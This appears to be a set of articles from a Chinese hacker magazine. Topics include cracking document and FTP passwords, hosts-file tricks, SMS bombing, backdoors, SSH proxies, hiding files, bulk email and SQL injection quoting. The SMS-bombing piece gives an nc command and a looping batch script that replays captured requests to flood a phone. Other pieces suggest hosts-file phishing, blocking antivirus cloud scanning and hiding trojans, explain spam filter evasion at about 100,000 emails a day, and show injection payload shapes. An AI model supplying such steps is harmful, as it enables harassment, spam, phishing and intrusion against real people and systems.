我们来配置一下破解设置，程序主要分为暴力破解和字典破解。暴力破解也称为穷举法，就是对密码进行逐个的推算测试直到找出真正的密码为止，而字典破解就是使用前面所说的密码字典文件进行配合使用。我们切换到“暴力”选项，可以设置要破解的密码长度、字符集以及自定义的一些字符集，而“字典”选项是选取我们字典文件用的，其他的保持默认就行了。

点击“打开文件”，选择我们要破解的“PPT”文件，如果密码长度不是很长或者密码不是很复杂的话，一般使用暴力破解很快就可以把密码跑出来了，如图14。

如果密码比较长或者比较复杂，我建议使用前文所生成的字典文件来配合一起进行爆破。值得一提的是，该软件不仅可以对PPT文件进行密码破解，还可以对Word、Excel和Outlook等文档进行破解。当然别忘了，破解的速度与密码的强度是成反比关系的。

### 4、Microsoft Office Access密码破解

Microsoft Office Access是由微软发布的关系式数据库管理系统，喜欢网吧入侵的小菜在入侵万象收费系统的时候，经常会碰到以mdb作为文件后缀的数据库文件，而这些数据库文件一般都加了密，没有密码是无法查看或更改数据库里面的内容的，如图15。

要查看或更改数据库里的内容就必须先要把密码给破解出来，而Access密码读取工具就可以很轻松地帮我们做到这点，如图16。我们点击“读取密码”按钮，然后选择要破解的mdb数据库文件，或者直接把已加密的mdb数据库文件拖到该工具的界面上，密码就会显露出来了，如图17。

### 5、PDF密码破解

PDF是一种常见的电子图书格式，从网站上下载的PDF文件，有一部分是带有安全设置，而安全设置也就是该PDF文档不允许被复制、被提取、被更改或被打印等。如果我们需要用到以上的功能时，就不得不解决它的密码问题了。

我们可以使用一款名为PDF Password Remover的程序来帮我们解决密码的问题，该程序还支持批量移除加密的PDF文件。在窗口中选择打开我们加密的PDF文件，在这里先附上一张官方介绍的截图，如图18。

出现红色叉子的表示PDF文档并没有被加密，而出现感叹号的SUCCEED就表示当前加密的PDF文档已经成功被移除掉密码了。选中被移除掉密码的PDF文档并点击右键，选择“View Target Document”（查看目标文件）就可以直接阅览被移除掉密码的PDF文档，并且还可以进行更改、复制或打印等功能。

### 6、FlashFXP安全密码破译

FLASHFXP是一款功能强大的、方便站长更好管理网站的FTP软件，支持对FTP空间服务器进行目录的文件上传、下载或删除等操作。我们今天要关注的不是怎么去使用它，而是怎么去破解它的安全密码。

在FlashFXP的安装目录下存在着“sites.dat”这么一个文件，如图19，而这个文件里面就包含着平时我们使用FlashFXP进行连接FTP空间的一些账号和密码信息。我们要用到一款名为Fxpsites的软件来进行密码的读取，点击“文件”，选择“读取FlashFxp(sites.dat)”，然后选择FlashFXP安装目录下的“sites.dat”文件，如图20。

幸运的话，一般就会直接看到“sites.dat”文件里所记录的FTP空间的账号和密码信息了。但似乎软件开发商也已经意识到和重视安全这个问题了，所以有些“sites.dat”文件已经被设置了安全密码，如图21。

针对这样的情况，我们除了破解外就别无选择了，而破解我们还使用Fxpsites所提供的sites安全密码破解功能，选择“文件”下的“破解FlashFXP安全密码”选项，如图22，然后选择FlashFXP安装目录下的“sites.dat”文件，在弹出的窗口中来配置我们的破解信息，如图23。

具体的配置与上面所介绍的破解方法基本类似，可以选择数字、字母等密码类型，然后点击“开始”按钮进行破解，或者是以字典的方式进行破解，具体的方法大家可以参考上文所介绍的，这里就不再啰嗦了。

## 四、结束语

本文所提到的都是一些日常生活中比较常见的文档的密码破解方法，当我们平时把一些工作的资料文件记录在前面所提到的文档中，而恰恰又把密码给忘记了，那么在你束手无策的时候，希望本文所提到的种种方法能够为你带来一些指引。最后，恭祝各位小菜还有各位小编新年快乐，开开心心！

（文章中所用到的Advanced Office Password Recovery、FlashFXP安全密码破解、Office Password Remover、PDF Password Remover、RAR Password Recovery、字典生成器、Access数据库密码读取工具已收录到光盘中）

# 后台WebEditor在IE8下全部按钮失效的解决

之前在维护网站的过程中发现了一个问题，就是在IE浏览器升级到了IE8之后，后台编辑功能的所有按钮都失效了。以前也曾经遇到过类似的情况，完全是浏览器设置的问题，本以为是浏览器安全系数设置过高而导致的，但是经过自己一个下午的检查，问题依旧存在。看来，这次的问题不同寻常了。到百度上搜索了一下，出来了很多种答案，大部分纯属无稽之谈，把网络上的方法一一尝试，但是没有一个成功的。虽然问题依然没有解决，但是却也给自己打开了思路，也基本上让我明白了首先应当解决的问题。

首先把问题定位到admin（即网站后台管理）之下的edit，结果在edit下面发现了eWebEditor.asp的存在，于是问题变得简单了，需要面对的是文件Admin、ButtonImage、CSS、db、Dialog、Include……根据经验，先是查找和edit有关的文件或者文件夹，但是在Admin/edit下面确实没有和edit有关的文件，于是很自然地就定位到Include文件夹下的editor.js。

打开editor.js文件，使用新的editor.js进行替换，我们只需要把新版的内容完全覆盖原版的内容就可以了。我们分析这两个editor.js文件，可以看到不同的只有以下两句代码，原版中的是：

```javascript
if (element.YUSERONCLICK)
    eval(element.YUSERONCLICK + "anonymous()")
```

而新版中的则是：

```javascript
if (navigator.appVersion.match(/8/ig)=="8") {
    if (element.YUSERONCLICK) eval(element.YUSERONCLICK + "onclick(event)")
} else {
    if (element.YUSERONCLICK) eval(element.YUSERONCLICK + "anonymous()")
}
```

具体的原因就是IE8屏蔽了anonymous方法，所以要更改成onclick的方法才行，同时为了不失去以前的IE6、IE7的功能，所以又做了个if……else语句。

好了，以上就是解决问题的方法。对于菜菜不是很在行的用户，直接使用我提供的新版本editor.js代替旧版就可以了。（文章中所用到的原版editor、新版editor已收录到光盘中）

# Hosts文件的妙用

Hosts文件相信大家都不陌生吧，它的作用可不小，而且还是一把双刃剑。它既能为安全防护出一份力，同样利用它也会给我们造成一定的伤害。在Windows 2000/XP系统中，它位于`%Systemroot%\System32\Drivers\Etc`目录下。Hosts文件是一个纯文本文档，使用普通文本编辑器（如记事本）即可打开编辑。

Hosts文件是根据TCP/IP for Windows标准来工作的，它的作用是定义IP地址和host name（主机名）的映射关系。通常每段只包含一个映射关系，即一个IP地址和一个主机名，IP在前主机名在后，中间用空格隔开，可使用`#`作为注释。

下面说一下它的工作原理：当我们在浏览器中输入一个网址（如www.baidu.com）时，系统会先到hosts文件中查找是否有对应的IP地址，如果没有才会交给DNS服务器解析。

看完上面的介绍，大家应该会有一些想法了吧。现在的恶意网站有很多，要是能屏蔽的话该有多好呀。比如我们要屏蔽www.baidu.com这个网站，只需在hosts文件中添加对应条目即可。

现在已经无法访问www.baidu.com了吧，大家只要把相应的恶意网站添加进去就可以起到屏蔽效果。它不仅能屏蔽恶意网站，也能屏蔽一些安全网站。比如添加“127.0.0.1 qun.f.360.cn”就可以突破360的云查杀。

除了上面的应用外，还可以用它来做钓鱼。例如把“127.0.0.1 www.baidu.com”中的127.0.0.1改成自己的钓鱼网页地址，这样当别人访问后就会进入钓鱼网站，获取账号和密码信息。这样不管对方怎么输入网址或搜索，都会进入我们设置的网站。

# 短信轰炸让骗子彻底崩溃

前段时间天气的温度实在是太低了，碰巧家里的暖气也出了点问题，冻得我连电脑都不敢碰了，只好躲在被窝里看X。正当看得入迷的时候，手机突然震动掉到了地上，把我吓了一大跳，难不成又地震了？当时脑袋胡思乱想了一番，过了一分钟左右，才回过神来，捡起手机一看，原来是手机来了短信，忘记了关闭震动，才震到地上了。我叹了口气，这年头连手机都可以出来吓人了！

“您好，您已经被抽中为春节幸运型活动的手机幸运用户，请补交个人所得税100元到工商银行622202************，领取奖品，您的奖品代码为75841，详情请回拨135********。”

哇，我也有这等运气，居然还“中奖”了！？想想自己也不可能有这样好运气的，这明摆着是一个烂得不能再烂的骗人消息，还这么猖狂，满天飞。为了打击一下骗子，顺便也了解一下骗子是怎么忽悠人的，好增加自己的防骗经验，我就给骗子打了个电话。对方的回答真是令我失望啊，我的名字、出生年月、家庭住址等全都是错的，并且和我以前在一个积分网站上填的信息一模一样，这回我总算是知道了，原来自己的资料被人拿去卖了。我心想这辈子是假的啊，在此提醒各位小菜，自己的真实资料千万不要随意在网上公布呀！

为了防止骗子继续来行骗，同时也叫他尝一些垃圾短信的滋味如何，于是一个“邪恶”的念头就这样萌发了。我把骗子手机的号码整理了出来，然后通过网银的手机充值系统查看了一下骗子手机话费的余额，真是不查不知道，一查吓一跳，现在的骗子好嚣张啊，我甚至不敢相信眼前的数字，因为手机话费余额还有3700多元钱呢！这是充的钱吗？这骗子应该还会一直利用这个手机发短信吧，那好，我们开始实施短信轰炸任务，具体的轰炸过程分为以下五步：

- **第一步**：首先打开百度或Google等搜索引擎，在搜索框中以“短信验证”“彩铃下载”为关键字进行搜索，在搜索到的结果中找到一个可以发送手机验证码信息的网站，并且不带验证码验证。
- **第二步**：经过一番搜索，我终于找到了一个符合要求的彩铃下载网站，如图1，输入自己的手机号码来测试了一下，成功地接收到了短信，连续测试了好几次，都成功接收到了。
- **第三步**：刷新一下刚才发短信的页面“http://www.u8u.com/mSend2/?f=50893&a=144775&b=0&c=899&e=0&d=119&page=zt”，打开抓包工具WSockExpert，然后点击WSockExpert工具栏中的“open”按钮，在新弹出的对话框中选择要监听的进程，然后点击进程左边的“+”号展开浏览器进程，在众多标题中选择需要监听的网站标题，完成后单击右下角的“打开”按钮开始进行监听，如图2。
- **第四步**：返回到浏览器的短信发送页面，在输入框中输入想要攻击的电话号码，然后单击“发送”按钮，网页弹出提示后，再返回查看WSockExpert工具窗口，就会看到截取到的数据包。在数据中找到“数据包内容”栏中“GET”开头的数据项，点击该数据项后在工具下方查看详细内容，如图3，并将其内容复制保存到一个新的txt文件中（如start.txt）。
- **第五步**：调用NC，在系统CMD下输入命令并执行，对目标站点80端口持续提交start.txt中的信息，实现短信轰炸。

```bash
nc -w 3 www.u8u.com 80 <start.txt
```

但是这样一次次地输入，也未免太麻烦了。为了实现循环轰炸，我编写了一个批处理，内容如下：

```bat
@echo off
color 02
set /p timer=请输入要攻击的次数
echo ...
for /l %%i in (1,1,%timer%) do nc -w 3 ...:80 <start.txt
echo 攻击结束
pause
```

将以上内容写入文本文件里，另存为bat格式然后运行，输入想要攻击的次数就会开始了（注意NC要和批处理存放在同一文件夹下）……

最后我再告诉大家一个防御的方法：如果手机有防火墙功能的话就开启防火墙……希望大家不要利用它来做违法的事情。

（文章中所用到的nc、开始攻击.bat和WSockExpert已收录到光盘中）

# 如何给程序添加后门

现在很多用户从网上下载软件，除了担心程序捆绑有病毒木马外，还担心这些软件可能会有“后门”……

其实软件中出现后门，也不是一天两天的事了……有的是为了方便软件进行修改和测试，有的则是为了非法窃取用户信息……

我们来看看黑客是如何给正规软件添加“后门”的，首先准备一个正规软件以及一个病毒木马文件……

（文章中所用到的邪恶后门添加工具已收录到光盘中）

# 量产打造超级U盘

丛林

可以说，现在大家基本上都有U盘了。为了榨取U盘的最大价值，今天我就教大家对U盘进行量产。那么“量产”到底是什么意思呢？这里我解释一下，“量产”的意思就是U盘生产工具。U盘生产厂家不像我们一次搞一个U盘，他们的生产都是按批计算的，是用电脑连上 USB HUB，同时连上 8-16 个（甚至更多）U盘，然后使用相应的软件向众多U盘写入相同的数据，完成U盘生产的最后工序。厂家对U盘进行量产操作，U盘才可以正常使用，相当于刷固件。

我们进行量产主要有两个目的：一是U盘恢复，比如U盘无法正常使用（硬件损坏除外），或者是U盘容量经过误操作变小了，比如原先4G的U盘莫名其妙变成了2G，这些问题都可以使用相应的量产工具来尝试修复。量产的另一个目的就是增强功能，比如可以模拟出 USB-HDD、USB-ZIP、USB-CDROM，分别加载不同的启动镜像，相当于多张不同的启动光盘，这样以后装机维护系统都方便多了，也可以实现加密分区等功能。

要对U盘实现量产，首先需要知道U盘主控芯片厂商，这和U盘品牌没关系。同一型号同品牌的U盘，由于时间批次等的不同，厂家往往会采用不同的主控芯片。要查看主控芯片就要用到工具，我推荐使用 chipgenius，插入U盘执行即可，如图1。


量产工具下载好后，我们先拔掉U盘，打开 AlcorMP.ini 文件，找到“VendorInfo”字段，把 VID 和 PID 更改成刚才在 chipgenius 中查看到的内容，如图2。改好后保存关闭，运行量产程序 AlcorMP.exe，然后再插入U盘，成功的话就会发现量产工具已经识别出我的U盘了，如图3。


为了提高成功率，建议先点击开始按钮，这时会对U盘进行一次低格操作，记得要提前备份好U盘数据。格式完成后准备工作就算是完成了，这时点击“设定”按钮，弹出了一个窗口，让我们输入密码，如图4。这里主要是厂商为了防止用户误操作，设置了一个密码作为保护措施。

进入“设定”后如图5所示，这里建议使用默认的设置。我介绍一下这里的“优化方式”选项：

- 选择“U盘容量优先”，这样量产好的容量最大；
- 选择“U盘速度优先”，这样量产好的U盘最快；
- “原低格设定”就是厂商的设定，是比较稳定的设置。

切换到“U盘信息设定”界面，VID、PID 依然修改成在 chipgenius 中查看到的。


“客户信息”和“产品信息”大家可以随意更改，建议改得个性些。这些信息在删除硬件、停用硬件时可以看到。注意“客户信息”最多8个字节（8个字符，4个汉字），“产品信息”最多16个字节（16个字符，8个汉字）。如果要制作可批量多U盘，可以点击“导出配置”按钮来导出我们的配置。


现在我们打开“装置方式设定”，这里就是重点了，模式设定共有六种，如图7，我简单地说一下：

- “普通盘”就是最常见的可移动磁盘；
- “本地盘”就是量产为和硬盘盘符一样的U盘；
- “只读盘”可以将一部分空间量产为只读分区，这样就不怕病毒感染了；
- “加密盘”就是将U盘量产为加密盘；
- “AutoRun”就是将U盘量产为光盘格式。

右下方的“LED设定”可以对U盘的灯进行设置，默认为读写U盘时才亮。如果这里的“空闲状态”设置为 ON，意思就是只要插上U盘灯就一直亮，建议设置为 OFF。


接下来我再举几个量产的例子。大家都是搞黑的，往往一部分数据不想被别人看见，这里就需要加密功能了。有的U盘提供了相应的加密工具，但我这款没有提供，我们就用量产工具来实现：点击“加密盘”，在“分区设定”处拖动滑块，左边为普通U盘，右边为加密U盘，卷标可以随意设置，如图8。在“加密盘设定”里我们输入一个密码，然后点击“坏磁区设定”，勾选关闭MP时卸载驱动，设置好后点击确定。返回到图3的窗口，点开始按钮后便开始对U盘进行量产了。


量产成功后，关闭工具，拔掉U盘再重新插上，这时可以看到有两个U盘盘符。点击第二个盘符，进入后发现有个 iStar.exe 文件，执行后如图9所示。“计算机锁”功能就是把U盘设置成一把钥匙，激活此功能后，拔出U盘电脑即被锁定，插入U盘后电脑自动解锁；如果对先前设置的普通区和加密区大小不满意，可以使用格式化功能重新划定大小；选择加密的盘符，密码登录图标才是可点状态，点击后输入你设置的密码，只有密码正确该分区文件才会显现出来，才可以进行读写操作。另外这里也提供了更改密码的功能。


玩完了U盘加密，接下来我们再玩玩模拟 USB-CDROM，来模拟出一个光盘。我习惯使用 Windows 原始光盘。对于新硬盘尽管有各种各样的分区格式化工具，但我始终认为使用原始盘的格式化工具比较可靠，因为现在硬盘发展到上T了，如果用老的分区格式化工具可能日后会出现各种不必要的麻烦。有的朋友喜欢玩 BT3 破解无线密码，也可以模拟成 USB-CDROM。这里我就以系统盘为例，我使用的是深度精简XP系统，点击“Auto-Run”，就会弹出一个 ISO SET 窗口，如图10。这里选择 ISO MODE，在下面的路径处选择 ISO 镜像。下面的 CD-ROM 卷标可以设置一个卷标名，如果不选择就是 ISO 的默认卷标。同样打开“坏磁区设定”界面，文件系统选择 FAT32，勾选上关闭MP时卸载驱动。点击“确定”返回到图3的窗口，点“开始”按钮后便会进行量产。量产完成后，关闭量产工具，重新拔插U盘，就会看到一个光盘标志（这就是我们选择的ISO镜像）和一个U盘标志。

如果要使用这个镜像来启动系统，在 BIOS 里选择 USB-CDROM 就可以启动此镜像文件了。以前杂志里曾经教过大家制作PE启动盘，这里就不详细说了。可以使用老毛桃PE工具或者 usboot 工具制作，然后拷贝一个万能 GHOST 文件到U盘区域里，启动时只需要在 BIOS 中选择 USB-HDD 方式启动即可，这样就轻松打造双启动U盘。


前面说到了还可以将U盘的一部分区域制作成只读盘，读者们可能会觉得用处不大。其实我们可以把它制作成杀毒U盘，从网上找到杀毒软件的移动版或者绿色免安装版，然后放在只读区域里，这样那些感染型病毒就不能破坏杀毒软件了。没有做不到只有想不到，开发你的智力，把你的U盘打造成超级U盘吧！

另外我还发现了一个意外的惊喜，我的8G U盘出厂原始容量是7.43G，如图11，经过量产后发现U盘容量变成了7.61G。光盘容量即我的ISO文件215M，等于榨取了将近400M的隐藏容量，如图12。看来出厂时这块U盘算是比较保守的。

> （文章中所用到的 chip genius V2.7 和 alcor 安国量产程序已收录到光盘中）

# 代理拨号使用SSH

什么，用SSH来做代理？是的，虽然这不是什么新鲜的东西，但我是刚刚发现和学会的。搜索时发现09年上半年就有人公布方法了，我是惭愧无意中才发现的，觉得很有意思也很有用，可能有的朋友还不知道这个方法，今天我就把它介绍给大家。

如果我们通过提权等方法拿到了一台 Linux 主机的 SSH 登录用户，都有什么用呢？其中一个用处就是使用 SSH 隧道技术来做个代理。如果 SSH 服务器是在国外的话，还可以突破限制访问一些国内屏蔽访问的网站。制作代理使用的 SSH 账号并不需要 root 权限，一般的 SSH 账号就可以。

如果大家没有 SSH 账号也不用担心，我们可以去免费申请一个，申请地址为“http://www.cjb.net/cgi-bin/shell.cgi?action=signup”，打开后的网页如图1所示。


在“Select a username:”下面输入你要申请的用户名；“What is your e-mail address?”就填写你申请用的邮箱；在“Select a password.”中输入你设置的密码；在“Verify your password.”下面重复输入；“Select a shell:”保持默认 bash，点“Continue”提交。

然后会弹出提示页面，提示“An e-mail has been sent to you...”，意思是激活邮件已发送。打开邮箱会看到标题为“Your CJB.NET Shell Account”的邮件，邮件中的第一个链接就是激活链接。

点击这个链接地址后就可以激活我们的账号了。激活后还会再收到一封邮件，提示你的 shell account 已经激活，邮件中还给出了你的 SSH 账号和 SSH 服务器地址。账号信息非常重要，一定要记好。要想实现代理功能，我们还需要工具 MyEntunnel（plink 的 GUI 界面）。


图2

SSH服务器填写我们申请的SSH账号的服务器，这里为 shell.cjb.net，用户名填写你SSH账号的用户名，口令填写你的密码。在下面的选项中我选择了三个，分别是“失败时重新连接”“启用动态套接字”和“启用压缩”。信息都填写好后点击“保存”按钮来保存一下SSH账号信息，以方便下次连接，然后点击“连接”按钮来连接SSH服务器。如果出现提示的话就直接点“Yes”。MyEntunnel 在任务栏中的程序图标由红色变为绿色后就说明连接成功了。连接成功后代理也就建立好了，只需要在浏览器中设置一下就可以使用这个SSH建立的代理来上网了。

我们以IE为例来进行设置：在IE的“工具”菜单中选择“Internet选项”，打开“连接”，单击“局域网设置”按钮，选择“为LAN使用代理服务器”，点击“高级”，代理服务器类型选择“套接字”，要使用的代理服务器地址填写127.0.0.1，端口写图3中设置的本地端口7070，然后一路点击“确定”就完成了IE的代理设置，如图4。


图3


图4

使用IE打开 http://www.ip.cn/，显示我上网的IP已经是美国了，如图5。代理功能正常，经测试浏览网页的速度还是不错的。


图5

利用工具 MyEntunnel 通过建立 SSH 隧道来实现代理很简单，操作也很傻瓜化。其实使用 PuTTY 也可以实现这个功能，就是操作稍微麻烦些。要实现SSH隧道，只需要在PuTTY的“Connection”->“SSH”->“Tunnels”中创建一个 Dynamic 的 Forward 端口就可以了。比如我们可以在 Source port 中输入 12345，然后选择 Dynamic，再点一下 Add，在 Forwarded ports 中就会出现“D12345”，这时隧道就设置好了，如图6。


图6

如果我们现在再登录到 SSH 服务器上，我们与服务器之间就会创建出一条 SSH 加密的通道，所有你发往本地12345端口的请求，都会通过SSH隧道传到对方主机上再发送出去，并把返回的结果也以相同的方式传回来。点“Session”，在“Host Name”中输入你申请到的SSH账号的服务器地址，这里还是填写 shell.cjb.net，如图7。


点“Open”按钮后就会出现如图8所示的SSH登录窗口，输入你申请到的SSH账号的用户名和密码，登录成功后代理就建好了。在浏览器中像上面一样设置代理，这次要把代理服务器的端口写成12345，然后就可以用IE通过代理上网了。如果你正在寻找国外代理的话，不妨使用一下这里用SSH搭建的代理。


（文章中所用到的 MyEntunnel、putty 已收录到光盘中）

# 另类隐藏文件夹

说起隐藏文件夹，大家可能都会各显神通，或加密，或改变标识符，或利用系统漏洞，或借助软件等等。前几天，我偶然发现了一个另类的文件夹隐藏办法，在此就跟大家共享一下。

这种方法其实是利用了 Windows 系统自带的功能，不需要使用其他软件，方法简单，还很环保哦。一日闲来无事，在更改文件查看方式时，我无意中按了左 Shift 键，发现在查看方式为缩略图时文件和文件夹的名字都不见了，如图1。刚开始还以为是系统出了问题，我反复试验了几次，又到百度上搜索了一下，才知道这原来是 Windows 自带的隐藏文件名字功能。具体的方法很简单：在“我的电脑”或“资源管理器”窗口中按下左 Shift 键，然后在空白处单击鼠标右键，在弹出的菜单中选择“查看”→“缩略图”项，这时缩略图模式下的文件、文件夹和盘符图标都不显示名字和盘符了，如图2。


再进一步，我们把文件夹的图标换为空白图标，如图3，这样就达到隐藏的目的了，如图4。这样虽然实现了隐藏的目的，但是稍有经验的人就会发现，而且只能在缩略图下查看。要是能把文件夹命名为空或隐藏就好了。可以这样实现吗？当然可以了呀，我们重命名文件夹时可以输入 Windows 无法显示的 ASCII 字符来实现这样的效果。


具体操作方法如下：重命名时，按下“Alt键”和小键盘上的“1、6、0”三个数字键（注意，一定要是小键盘上的三个键），松开键盘，文件夹名字就消失了。然后按照图3所示的方法把文件夹图标换为空白，就大功告成了。在图5中显示出左上角的文件夹被完全隐藏了，日常应用中我们可以把要隐藏的文件夹放在最后，这样效果会更好。


本文所说的方法虽然简单，却也很实用，特别是“Alt+160”的隐藏方法，在一定程度上还能保护自己的隐私。其实，大家还可以试试将自己的木马或重要文件用这种方法隐藏，因为没有名字，当然搜索不到了，是不是就又多了一重保护呢？

# 网络营销之邮件群发

丛林

邮件群发是互联网营销的一种有效手段，但随着邮件群发的泛滥，也导致了目前邮件服务器已经做最大努力来屏蔽群发邮件：要不封邮箱，要不封IP，要不就是限制你的发件数量；就算我们辛辛苦苦地发出去了，再一看，不是大多数邮件都被自动屏蔽了，就是邮件进入对方的垃圾箱了。这也就导致了很多人使用手工方法来发邮件，成功率提高了，效率却也低了很多。那有没有更好的群发方法呢？当然有，今天我就给大家推荐一款名叫“彩虹邮件自动发送系统”的工具。

首先打开彩虹邮件自动发送系统，界面如图1所示。上面有10个随机标题的地方，大家可以随便填写10个标题，邮件随机内容有6个。这样每次发邮件的时候，系统随机抽取一个标题和邮件内容组合，就做到了每封邮件都不相同。以往那些邮件群发软件都是同一标题和内容，内容相同的邮件发多后必遭发件和收件服务器的封杀。下方“标题前插入”和“标题后插入”是在标题的前后插入字符符号，大家可以根据自己喜好设置，每次也是随机选择，这样又进一步对内容采取变化来躲避封杀了。

例如：“今天你去黑客X档案论坛了吗”，经过变化后有可能变成：“您好，今天你去黑客X档案论坛了吗？”。“内容前插入”和“内容后插入”就是在邮件正文前后随机插入。下方有个“标题随机化”和“邮件内容随机化”的复选框，勾选上就是在标题和邮件内容再进一步增加多余空格、增加多余标点符号、随机繁简变换，后面可设置标题和内容随机增加的个数。经过这一系列操作，相信再智能的服务器也难以判断是否是用群发软件发的了。


接下来我们点“邮箱参数设置”，这里就是设置用来发邮件的邮箱了，如图2。支持十多种邮箱的发信，这里我就设置126为例，其他邮箱的设置都是一样的。左上方发件人邮箱里，写上你申请的126邮箱名和密码，中间用10个空格隔开，一行就是一个邮箱，建议多设置几个邮箱。中间是收件箱，地址大家可以用软件批量生成，或者用工具提取对方网站论坛的邮箱等方法获得，复制到这里就可以了。

然后我们打开“运行参数设置”选项，如图3。这里看起来比较复杂，但一般使用默认设置就可以了。我简单地说一下：由于软件操作是模拟人真实从浏览器登录邮箱发信的，可能有的朋友觉得采用SMTP发信效率高，SMTP确实快，但也容易被封，这也是软件采用传统方式发信的原因。上方是设置进入各个页面的延时，大家可以根据自己的网络环境设置。如果是ADSL拨号用户，还可以勾选上自动ADSL断网选项，后面输入ADSL用户名和密码就可以了，局域网用户和路由器用户这步就免了。


下方就是设置一些具体操作了。有的朋友可能会想这样发信多慢啊，一分钟最多发两封吧。其实玄机在于网页发信可以邮件转发和邮件密送，一般的邮件服务器支持发送9个密送邮件，这样我发一封等于发了10封，一分钟大约能发20封了，一小时就能发1000封，10个邮箱同时发的话一个小时就是6000封信，一天发十万封信完全不成问题。这里我建议选择邮件密送，如果选择邮件转发的话，收件人收到信还可以看到其他人的收件箱，就知道邮件是群发的了。下方是设置坐标选项，默认的已经设置好了，就是设置鼠标点哪个位置进入邮箱等操作。不知道坐标点在哪，看到右上角没，我们在网页移动到按钮处，这里就显示当前鼠标的坐标，记下来复制到这里就可以了。细心的朋友会发现第三步是收件箱操作，我们是要发邮件的，点收件箱干什么啊？其实主要还是迷惑服务器的，做点额外操作就更不知道是软件发信了。

最后我们点运行窗口，就看到和浏览器一样了，如图4。点击右上的开始按钮就开始模拟人工登录网站发信了。由于是模拟操作，电脑这时就不能干其他事情了，大家可以在晚上的时候挂机发邮件。如果要操作按钮，也可以点暂停按钮暂时中断，操作完毕再点继续按钮继续工作。如果大家实在想白天发邮件又没多余的电脑，就可以装虚拟机让其在虚拟机里运行，记得分辨率调整到1024*768或者更高就可以了。


发完后我们来看一下效果，如图5，可以看到信件已经在收件箱里了，没有进入垃圾箱哦，不错吧，大家也一起来体验这款邮件群发软件吧。

> （文章中所用到的彩虹邮件自动发送系统已收录到光盘中）

# 巧用VB隐藏文件


谈到隐藏私密信息，相信大家立刻会想到很多种加密软件。但有没有想过，我们可以将这些需要隐藏的文件藏到自己编写的小程序中呢？来跟我一起用VB把文件隐藏起来吧！

## 一、隐藏文件

打开 VB6.0，新建工程或打开已有程序，进入“外接程序管理器”，找到“VB 6 资源编辑器”并加载。通过资源编辑器添加资源文件，把需要隐藏的文件加入资源中并保存资源文件。

所有文件都可通过“添加自定义资源”添加；但如果添加的文件过大，容易露馅。最后通过“文件”菜单生成“*.exe”可执行文件。程序运行外观与普通文件无异，仅体积略大。


## 二、提取文件

提取文件可使用 PE Explorer、ResScope 等工具。文中示例使用 Restorator 2007，打开目标程序后在资源树中展开 Custom 项，定位到添加的资源并导出，修改后缀名即可恢复文件。


如果先将文件用 WinRAR 等工具加密后再添加到程序中会更安全。其他语言（如 VC++）也可采用类似方式添加资源文件。（文中所用到的 Restorator 2007 已收录到光盘中）

# 浅谈SQL注入中的单、双引号和注释符


在假期里忙活了这么多时间，却发现自己还是弄不清楚 SQL 注入中的双引号和单引号，于是查阅资料并与同学交流，整理了单双引号以及各种注释符号在 SQL 里的应用，希望给新手一些参考。

首先介绍在 ASP 网页中使用 VBScript 时，所用到的双引号以及 SQL 语句中注释和单引号等基础内容。

## 一、VBScript中双引号的用法

在 VB 中有以下规定：字符串要包含在两个双引号中，用于区分字符串和数字；而同时是在两个双引号中，两个双引号才能显示出一个双引号，比如：

```vb
' dim a as string
a="c"      ' a为c
a="""c"""  ' a为"c"
a="'c'"    ' a为'c'
```

## 二、VBScript中的注释

VBScript 中的注释是以单引号开头，后面跟单行注释；也可以 Rem 开头，另起一行进行注释；或是使用冒号与前面的语句分开。

## 三、SQL中单引号的用法

单引号是 SQL 中经常用到的。由于 VBScript 中经常要用到 SQL，所以和 VB 的双引号连用时容易混淆。比如在连接数据库时：`sql="select * from user where name='" & name & "'"`。

在 SQL 中，字符串是用单引号括起来，而 VB 中是双引号。上句代码可以分成三个部分：第一部分为 `select * from user where name='`，第二部分是 `name`，第三部分是 `'`，三个字符串用 `&` 连接起来。

## 四、连接字符&号

在 ASP 中“&”符号的主要作用是用于连接，包括字符串—字符串、字符串—变量、变量—变量等混合连接。示例：`Sql="insert into User (Name,Password) values ('" & UserName & "','" & Password & "')"`。

这句代码中，第一对双引号为前段 SQL 字符串，第二对双引号中的内容是 `','`，因此第一个 `&` 连接字符串和变量，第二个 `&` 连接变量和字符串。由于 VB 同样提供加号做连接符，所以使用加号替换 `&` 也可以。

## 五、SQL注释符

在 SQL 中可以使用两类注释符：

- ANSI 标准注释符 `--`，用于单行注释；
- 与 C 语言相同的程序注释符号 `/* ... */`，用于多行注释。

这种注释也多见于注入中，比如在构造的注入 URL 结尾加入 `/*`。

## 六、SQL连接运算符

连接运算符“+”用于连接两个或两个以上的字符串或二进制串、列名，或者串和列的混合体，将一个串加入到另一个串的末尾。在 VB & VBScript 中访问数据库常用语句：`select`（返回结果集）；`update`、`insert`、`delete` 等（无结果集）。

URL 中输入的地址是根据用户意愿构造的 SQL 字符串，提交给连接对象或结果集对象执行（open 或 execute 方法）。假设 ASP 页面有两个文本框用于输入用户信息，输入 `aaa`、`1234` 注册到 User 中，则：
`strSql="insert into User(Name,Password) values('"&Name&"','"&Password&"')"`，
结果为：
`insert into User(Name,Password) values('aaa','1234')`。

如果赋值字段类型是数字型，则要去掉字符串两端单引号。假设 Password 字段为数值型：
`Sql="insert into User(Name,Password) values('"&Name&"',"&Password&")"`，
结果：
`insert into User(Name,Password) values('aaa',1234)`。

大家注意到两处密码字段的区别：一个是字符串，一个是数字。数字不需要双引号，因此查询字符串分段拼接时，仅字符串字段需要成对引号。

如果字段类型是日期型，要注意日期字段格式，最好在组 SQL 字符串时对日期格式化，保证年份为4位。例如：
`Sql="Insert into User(Name,Password,date) values('"&Name&"',"&Password&",'"&FormatDatetime(date,vbLongDate)&"')"`，
可生成类似：
`insert into User(Name,Password,date) values('aaa',1234,'2009-10-01')`。

看完基本介绍后，再看实际注入过程应注意的问题。SQL 注入一般先判断服务器运行环境和类型，寻找注入点。根据注入参数类型，重构 SQL 语句原貌，按参数类型主要分为下面三种：

- `ID=55` 这类注入参数是数字型，SQL 语句原貌大致：`Select * from 表名 where 字段=55`。注入参数如 `ID=55 And [查询条件]` 不需要加双引号，生成：`Select * from 表名 where 字段=55 And [查询条件]`。
- `字段=蜗居` 这类注入参数是字符串型，SQL 原貌大致：`Select * from 表名 where 字段='蜗居'`。注入参数常形如 `字段=蜗居' and [查询条件] and ''='`，用于闭合引号并拼接条件。
